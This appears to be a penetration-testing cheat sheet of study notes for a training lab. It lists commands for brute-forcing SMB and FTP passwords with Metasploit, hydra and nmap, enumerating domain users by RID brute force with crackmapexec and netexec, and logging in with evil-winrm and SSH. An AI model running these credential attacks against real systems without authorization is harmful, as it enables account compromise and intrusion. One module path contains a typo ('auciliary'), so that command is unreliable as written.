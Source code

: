```msfconsole
use /auciliary/scanner/smb/smb_login
show options
set RHOST <ip-address>
set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
set smb_user <user-name>
exploit
```

> These set of commands from metasploit can be used to brute force a particular SMB user.

```Shell
hydra -l <user-name> -P /usr/share/wordlists/rockyou.txt <ip-address> smb
```

> This hydra command is used brute force a particular SMB user.

```shell
crackmapexec smb <dc-ip> -u <user> -p <password> --rid-brute
netexec smb <dc-ip> -u <user> -p <password> --users --rid-brute
```
> for no cred enumeration use username as “guest” and password as blank

```shell
evil-winrm -i <ip> -u <user> -p '<pass>'
```
> evil-winrm to login

#### FTP Commands:

```Shell
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <ip-address> ftp
```

> It is used to brute force users and their passwords on FTP.

```console
ftp <ip-address>
```

> Can be used to login.

```shell
nmap <ip-address> --script-args userdb=/root/users -p 21 
```

**Note:**

`root/users` has the user(s) that I am sure are present in the system.

> Nmap can be also used to brute force user(s) password(s).

#### SSH Commands:

```Shell
 ssh <user-name>@<ip-address> 
```

> SSH Login

```Shell
nmap --script ssh2-enum-algos demo.ine.local
```
